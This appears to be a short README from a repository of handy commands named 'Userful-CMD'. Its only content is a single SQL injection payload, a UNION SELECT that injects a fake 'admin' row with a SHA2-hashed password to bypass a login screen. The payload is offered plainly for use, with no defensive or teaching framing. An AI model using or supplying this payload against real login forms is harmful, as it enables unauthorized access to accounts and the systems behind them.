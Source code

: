 # Userful-CMD

Bypass a login screen were username field has potential SQL injection:

`' UNION SELECT 1, 'admin', SHA2('bypass', 256)-- -`
